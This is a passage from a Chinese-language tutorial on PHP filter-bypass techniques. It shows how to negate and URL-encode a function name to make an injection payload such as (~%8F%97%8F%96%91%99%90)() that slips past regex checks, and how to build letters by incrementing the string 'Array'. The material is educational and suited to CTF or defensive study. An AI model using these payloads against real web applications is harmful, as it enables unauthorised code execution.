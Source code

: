 原理：我们通过将输入的字符进行取反，一般转化为不可见的字符，不会触发正则表达式，所以可以绕过，然后将其使用url编码后，再拼接上取反符号 `~` 这样执行，就相当于原来输入的shell了

例如：

```php
<?php
    $s1 = "phpinfo";
    $s1 = urlencode(~$s1);
    echo $s1.PHP_EOL;
    $s2 = ~urldecode($s1);
    echo $s2.PHP_EOL;
    $shell = $s1;
    echo "shell: "."(~".$shell.")();";
```

输出：

```php
%8F%97%8F%96%91%99%90
phpinfo
shell: (~%8F%97%8F%96%91%99%90)();
```

此处，phpinfo 经过两次取反后还是为 phpinfo

我们将 第一次取反后的编码与 `(~`   `)();` 进行拼接

得到shell:

```php
(~%8F%97%8F%96%91%99%90)();  // phpinfo();
```







#### 4、自增

```
"A"++ ==> "B"
"B"++ ==> "C"
```

如上，我们如果拿到了 字母A，那我们就可以通过++ 自增，获取所有大写字母

那么问题就是，我们如何才能够获得大写字母A呢？

> 在php中，如果强制连接字符串和数组的话，数组将被转化为字符串，其值为 “Array”

```php
<?php
	$a = ''.[];
	var_dump($a);    // 输出: String(5) "Array"
```

根据以上知识点，我们只需取第一个字母，就可以获得大写字母 A 了 （也可以获得小写字母a）

```php
<?php
    $s = "Array";
    echo $s[$_];  //输出：A  我们没有定义 $_ 但是php默认赋值NULL==0
	$_++;
    echo $s[$_];  //输出：r
```
